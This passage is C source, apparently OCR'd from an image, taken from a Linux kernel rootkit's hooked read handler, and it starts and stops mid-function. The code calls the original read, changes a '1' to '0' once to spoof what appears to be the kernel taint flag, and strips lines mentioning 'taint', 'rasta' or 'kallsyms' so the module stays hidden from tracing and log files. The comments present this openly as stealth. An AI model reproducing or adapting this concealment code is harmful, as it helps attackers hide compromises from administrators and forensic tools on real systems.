 ```c

            // Calls the original function to read data from the file
            bytes_read = og_read(regs);
            if (bytes_read < 0) {
                kfree(kernel_buf);
                return bytes_read;
            }

            // Copies data read from user space to the buffer in the kernel for processing
            if (copy_from_user(kernel_buf, user_buf, bytes_read)) {
                kfree(kernel_buf);
                return -EFAULT;
            }

	    // If the current val is "1" we need to spoof it, change it to "0" once. If not the zeros are so bad bro ...
            if (spoof_next_read == 0 && strncmp(kernel_buf, "1", 1) == 0) {
                kernel_buf[0] = '0';
                spoof_next_read = 1; // Ensure spoof happens only once
            } else {
                spoof_next_read = 0; // Reset spoof
            }

            // Filter out lines that contain the words "taint", "rasta", or "kallsyms"
            char *filtered_buf = kzalloc(B_F, GFP_KERNEL); // Buffer for filtered messages
            if (!filtered_buf) {
                kfree(kernel_buf);
                return -ENOMEM;
            }

            char *line, *line_ptr;
            size_t filtered_len = 0;

            // Process the kernel buffer, line by line
            line = kernel_buf;
            while ((line_ptr = strchr(line, '\n'))) {
                *line_ptr = '\0';  // Temporarily terminate the line

            /*
                So check it out, this is where the magic happens with hiding from those tracing files. 
            */

                // Check if the line contains "taint", "rasta", or "kallsyms" 
                if (!strstr(line, "taint") && !strstr(line, "rasta") && !strstr(line, "kallsyms")) {
                    size_t line_len = strlen(line);
                    if (filtered_len + line_len + 1 < B_F) {  // Check for space in the filtered buffer
                        strcpy(filtered_buf + filtered_len, line);  // Append the line
                        filtered_len += line_len;
                        filtered_buf[filtered_len++] = '\n';  // Add newline after the line
                    }
                }

                line = line_ptr + 1;  // Move to the next line
            }

            // Ensures the final buffer is null-terminated
            filtered_buf[filtered_len] = '\0';

            // Copy the filtered buffer back to userspace
            if (copy_to_user(user_buf, filtered_buf, filtered_len)) {
```